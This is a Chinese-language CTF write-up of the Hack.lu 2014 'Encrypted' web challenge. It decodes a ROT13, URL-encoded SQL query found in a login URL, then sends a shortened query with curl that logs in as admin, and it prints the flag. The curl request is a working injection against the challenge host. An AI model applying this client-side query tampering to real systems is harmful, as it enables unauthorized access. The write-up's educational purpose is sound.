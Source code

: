 # Hack.lu 2014 Writeup

2014/10/29 14:55 | [一个狗](http://drops.wooyun.org/author/一个狗 "由 一个狗 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 Web 50 Encrypted

* * *

> Category: Web
> 
> Points: 50
> 
> Author: TheJH
> 
> Description:
> 
> Legend says there is a bank vault in Jamestown which cannot be broken
> 
> into. The only way inside is through an authentication process. Even
> 
> Jesse James and his companions failed to break the security of this
> 
> particular bank. Can you do it?
> 
> [`wildwildweb.fluxfingers.net:1411/`](https://wildwildweb.fluxfingers.net:1411/)

能看到一个登录表单，使用用户名 a 和密码 b 登录，看到了链接变成

```
https://wildwildweb.fluxfingers.net:1411/dologin.php?dhrel=FRYRPG+%60anzr%60+SEBZ+%60hfref%60+JURER+%60anzr%60+%3D+%27n%27+NAQ+%60cnffjbeq%60+%3D+ZQ5%28%27o%27%29 
```

* * *

```
In [22]: hackercodecs.rotx(hackercodecs.urlunquote(a),13)
Out[22]: u"query=SELECT+`name`+FROM+`users`+WHERE+`name`+=+'a'+AND+`password`+=+MD5('b')"

```

去掉后半部分，直接访问：

```
DeAdCaT___$ curl 'https://wildwildweb.fluxfingers.net:1411/dologin.php?dhrel=FRYRPG%20%60anzr%60%20SEBZ%20%60hfref%60'

```

* * *

```
<!DOCTYPE html>
<html>
  <head>
    <title>Encrypted Login</title>
  </head>
  <body>
    <h1>Encrypted Login</h1>
Hello admin! The flag is flag{nobody_needs_server_side_validation}.  </body>
</html>

```
